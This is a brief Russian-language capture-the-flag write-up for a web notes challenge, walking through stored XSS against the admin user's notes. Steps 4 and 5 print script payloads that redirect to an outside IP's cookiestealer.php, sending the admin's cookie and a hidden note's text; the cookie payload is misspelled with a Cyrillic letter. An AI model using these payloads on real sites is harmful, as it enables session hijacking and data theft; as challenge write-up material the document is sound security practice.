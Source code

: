 1. Находим дополнительных флаг нажав кнопку append c незаполненным полем.

2. Проверяем на  xss передав <script>alert("TEST");</script> в notes. Видим, что поэксплуатировать его здесь получиться.

3. Видим, что http://notes.ctf2019.rocks/append принимает id юзера в параметрах. Из исходного кода страницы находим,
что у admin-а id=1.

4. Забираем куку админа передав в http://notes.ctf2019.rocks/append параметры 
append=<script>document.location='http://89.163.129.121:9999/cookiestealer.php?c='.concat(document.сokkie);</script>
&id=1   
и получаем доп флаг.

5. Смотрим js path к hidden записи админа.
Передаем  в http://notes.ctf2019.rocks/append параметры 
append=<script type="text/javascript">document.location='http://89.163.129.121:9999/cookiestealer.php?c='.concat(document.querySelector('body > div:nth-child(2) > div:nth-child(1) > p:nth-child(2)').innerText);</script>
&id=1 
и получаем флаг.
